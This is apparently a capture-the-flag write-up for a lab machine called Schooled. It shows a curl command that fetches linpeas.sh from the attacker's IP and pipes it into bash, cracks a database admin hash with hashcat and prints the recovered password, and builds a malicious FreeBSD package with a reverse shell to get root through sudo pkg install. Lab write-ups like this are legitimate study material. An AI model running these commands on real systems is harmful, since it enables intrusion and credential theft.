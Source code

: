 
We run linpeas. curl is in `/usr/local/bin/`.
```bash
/usr/local/bin/curl http://10.10.14.217:9002/linpeas.sh | /bin/bash
```

We find the credentials of the mysql database:

>![]({{ page.dirImg }}/20210524-014102.png){: .shadow}


We can log in

>![]({{ page.dirImg }}/20210524-015535.png){: .shadow}


take username and passwords from mdl_user table

>![]({{ page.dirImg }}/20210524-015920.png){: .shadow}

We are interested to these ones:

>![]({{ page.dirImg }}/20210524-021745.png){: .shadow}

And in particular to the admin's password (Jamie)

We can crack the hash using `hashcat`.  
The algorith used for the hash is *bcrypt*

```bash
hashcat -a 0 -m 3200 hashes /usr/share/wordlists/rockyou.txt --username
```

We manage to crack the hash:

```bash
$ hashcat -a 0 -m 3200 hash /usr/share/wordlists/rockyou.txt --username --show
admin:$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW:!QAZ2wsx
```

## Root

>![]({{ page.dirImg }}/20210524-042322.png){: .shadow}

The `pkg install *` is indeed very suspicious there.

We can look it up on GTFObins and easily follow the instructions.

We create the file containing our reverse shell (I tried a couple of them before finding one that actually worked)

>![]({{ page.dirImg }}/20210524-223850.png){: .shadow}

Then we create the freeBSD malicious package with `fpm -n x -s dir -t freebsd -a all --before-install pwn/pwn.sh pwn`

We can send the package to the machine with `scp`


To install the package on the remote host and trigger our malicious code: `jamie@Schooled:~ $ sudo pkg install -y --no-repo-update ./x-1.0.txz`


The reverse shell works and we are root now.
```bash
$ nc -lnvp 4242
listening on [any] 4242 ...
connect to [10.10.14.217] from (UNKNOWN) [10.10.10.234] 15762
# whoami
root

```


